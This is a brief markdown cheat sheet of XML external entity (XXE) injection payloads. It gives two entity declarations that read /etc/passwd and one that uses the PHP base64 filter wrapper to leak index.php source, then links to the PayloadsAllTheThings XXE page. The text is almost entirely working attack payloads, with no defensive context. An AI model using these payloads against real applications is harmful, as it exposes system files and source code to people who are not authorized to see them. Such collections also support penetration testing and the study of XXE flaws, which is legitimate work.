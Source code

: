 # XML

## XXE attacks

### Read File

```
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<data>&example;</data>

<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<root>&test;</root>
```

#### PHP Wrapper

```
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
```

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md
